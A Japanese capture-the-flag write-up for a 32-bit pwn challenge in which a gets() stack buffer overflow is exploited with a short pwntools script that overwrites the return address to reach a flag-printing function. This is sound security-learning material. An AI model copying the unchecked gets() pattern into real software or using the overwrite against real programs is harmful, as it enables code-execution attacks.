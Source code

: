 ## Jump (320pt / 37 solves) [★★☆☆]
> ソースコードを見て、フラグを取得してください。
> 
> 
> ただし、以下の条件で動作しています。
> 
> - スタック保護機能（Stack Canary）は無効です。
> - 位置独立実行形式（PIE）は無効です。
> - 本問題は32bit i386環境を前提としています。
> - スタックのアラインメントは4バイトに設定されています。
> - print_flag 関数は必ず `0x21466F42` にロードされます。
> 
> 本問題のターゲットマシンを起動してください。起動が完了したら、VPN接続マシンまたはBrowser Kaliから `nc <ターゲットのIP> 8102` コマンドで接続してください。
> 
> 
> 問題ファイルをダウンロード: Jump.zip
> 
> ZIPのハッシュ値(SHA256): `1a23095d9408b4c9876a813804cb9ccd571752fc20e7fec4625b0b9d5b30822e`

ソースコードが配布されているので見てみる。
```c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((section(".flag"))) print_flag() {
    char flag[64] = { 0 };
    FILE* fp = fopen("flag.txt", "r");
    if (!fp) {
        printf("An error occurred while opening the file\n");
        exit(1);
    }
    fread(flag, 1, 64, fp);
    printf("Congratulations! Here's the flag: %s\n", flag);
    exit(0);
}

void greet() {
    char name[16] = { 0 };
    gets(name);
    printf("Hi, %s!\n", name);
}

int main() {
    printf("Tell me your name! : ");
    fflush(stdout);
    greet();
    return 0;
}
```

`gets()`後にサイズチェックがなされていない、典型的BOF問題。Stack CanaryもPIEもないので、セオリー通りオフセットを調べてリターンアドレスを`0x21466F42`に書き換えればOK。
ソルバはこんな感じになった。
```python
from pwn import *

target = './jump'

context.os = 'linux'
context.arch = 'amd64'
context.binary = target

addr_print_flag = 0x21466F42

proc = remote(target_ip, 8102)

payload = b'A' * 20
payload += pack(addr_print_flag)

proc.sendlineafter('Tell me your name! : ', payload)

proc.interactive()
```

```
[*] Switching to interactive mode
Hi, AAAAAAAAAAAAAAAAAAAABoF!!
Congratulations! Here's the flag: flag{80F_JUMP_70_FUNC710N}
```

`flag{80F_JUMP_70_FUNC710N}`

アドレスが`BoF!`のASCII（のリトルエンディアン）になっているという遊び心。